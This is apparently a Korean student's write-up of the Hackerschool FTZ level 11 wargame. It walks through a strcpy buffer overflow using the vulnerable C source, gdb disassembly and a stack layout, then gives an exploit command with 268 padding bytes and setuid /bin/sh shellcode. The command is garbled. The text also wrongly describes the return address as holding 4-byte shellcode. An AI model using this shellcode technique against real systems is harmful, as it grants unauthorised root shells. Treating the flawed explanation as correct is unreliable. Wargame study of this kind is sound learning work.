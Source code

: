 ```yaml
---
date: '2022-10-01'
before : '2022-09-30'
after : '2022-10-02'
title: '해커스쿨 FTZ 레벨 11'
categories: ['C-SEC', 'KOR', 'PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기 전에__

조금 더 어려운 BOF문제! 물론 BOF가 아니고 Format String 기법으로도 공격할 수 있지만, 기왕 BOF 연습중인거 BOF로 풀었다.

### 1. __Level 11__

이것 또한 BOF 문제이다. 하지만 이번엔 "진짜" BOF처럼 ret값이 들어가는 주소에 쉘코드를 입력해야 한다. 이는 소스코드를 보면 확인할 수 있다.

```
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

attackme의 소스코드다. 음..일단 tmp에 복사해서 한 번 gdb로 디버깅
해보는 것이 좋을 것 같다.

```
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
```

다음과 같은 코드가 뜨는데, 차근차근 분석해보면
ebp-264 시점에 우리의 str[256]이 선언되는 것 같다. strcpy는 길이 체크를 하지 않으니
버퍼오버플로우의 취약점이 보인다.  


일단 264-256을 해서 더미데이터가 8바이트 존재하는걸 확인할 수 있다. 또한 기본적으로 SFP 4바이트와
ret 4바이트가 존재할 것이다. 따라서 스택구조를 재구성해보면 :
```
str[256]
dummy[8]
sfp[4]
ret[4]
```
처럼 될 것이다. 우리가 조작하고자 하는 겂은 ret값이니 우리는 총 268바이트를 사용해
뭔가를 채우고, ret에 4바이트 쉘코드를 넣어 attackme를 실행시키면 될 것 같다. 


여기서 ret니 sfp니 아무것도 모르겠다면, 컴퓨터 구조(특히 레지스터)와 어셈블리에 대한 공부가 더 필요하다고 볼 수 있겠다. 간단히만 말하자면 ret는 return해서 돌아가는 주소이고(즉, 함수가 완료될떄 다음에 실행될 코드) sfp는 현재 스택의 기준을 잡는 값으로, 만약 이게 상위에서 호출된 함수라면 그 상위 함수의 위치값을 저장해 완료시 돌아갈 위치를 세이브해준다고 생각하면 된다.


이런걸 보면 확실히 리버싱 공부를 더 해야할 것 같다. 이런 예제야 쉽지만...

```
./attackme 'python-c'print"A"*268+
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\
x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\
x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'

//작성한 쉘 코드.
```
쉘코드는 인터넷에 널려있다. 스스로 만들기는 아직 실력이 좀 부족하다.


아, 그리고 쉘코드가 4바이트가 넘어가는 경우도 허다한데, 이런 경우는 환경변수 등록을
통해 등록된 환경변수의 주소를 return값으로 넘겨주면 된다. 이에 대해선 level12에서
다루도록 하겠다.


비밀번호 : it is like this

---
## Source

- 해커스쿨 FTZ
- Me!
